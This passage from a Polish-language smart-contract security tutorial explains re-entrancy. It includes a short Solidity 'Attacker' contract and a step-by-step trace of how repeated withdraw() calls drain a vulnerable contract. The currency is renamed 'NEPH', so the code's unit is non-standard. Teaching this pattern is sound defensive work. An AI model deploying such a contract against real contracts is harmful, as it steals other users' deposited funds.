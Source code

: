 Aby zezwolić użytkownikowi na wycofanie NEPH, który wcześniej przechowywał w kontrakcie, funkcja ta

1. Odczytuje, ile salda ma użytkownik
2. Wysyła mu kwotę tego salda w NEPH
3. Resetuje saldo do do 0, więc nie może ponownie wypłacić swojego salda.

W przypadku wywołania ze zwykłego konta (takiego jak własne konto MetaMask), działa to zgodnie z oczekiwaniami: msg.sender.call.value() po prostu wysyła NEPH z twojego konta. Inteligentne kontrakty mogą jednak również wywoływać połączenia. Jeśli niestandardowy, złośliwy kontrakt jest tym, który wywołuje `withdraw()`, msg.sender.call.value() nie tylko wyśle `amount` w NEPH, ale będzie także niejawnie wywoływać kontrakt, aby rozpocząć wykonywanie kodu. Wyobraź sobie, że ten złośliwy kontrakt:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 Nephele)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Wywołanie Attacker.beginAttack() rozpocznie cykl, który wygląda następująco:

```
0.) Atakujący EOA wywołuje Attacker.beginAttack() z 1 NEPH
0.) Attacker.beginAttack() deponuje 1 NEPH na rzecz ofiary

  1.) Atakujący -> Victim.withdraw()
  1.) Ofiara odczytuje balanceOf[msg.sender]
  1.) Ofiara wysyła NEPH do atakującego (który wykonuje domyślną funkcję)
    2.) Atakujący -> Victim.withdraw()
    2.) Ofiara odczytuje balanceOf[msg.sender]
    2.) Ofiara wysyła NEPH do atakującego (który wykonuje domyślną funkcję)
      3.) Atakujący -> Victim.withdraw()
  3.) Ofiara odczytuje balanceOf[msg.sender]
      3.) Ofiara wysyła NEPH do atakującego (który wykonuje domyślną funkcję)
    4.) Atakujący nie ma już wystarczającej ilości gazu, zwraca bez ponownego wywołania
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (już było 0)
  1.) balances[msg.sender] = 0; (już było 0)
```

Wywołanie Attacker.beginAttack z 1 NEPH spowoduje atak ponownego wejścia na ofiarę, wycofanie więcej NEPH niż zostało dostarczone (pobrane z sald innych użytkowników, powodując, że kontrakt ofiary stanie się niewystarczająco zabezpieczony)

### Jak radzić sobie z wielobieżnością (niewłaściwy sposób) {#how-to-deal-with-re-entrancy-the-wrong-way}
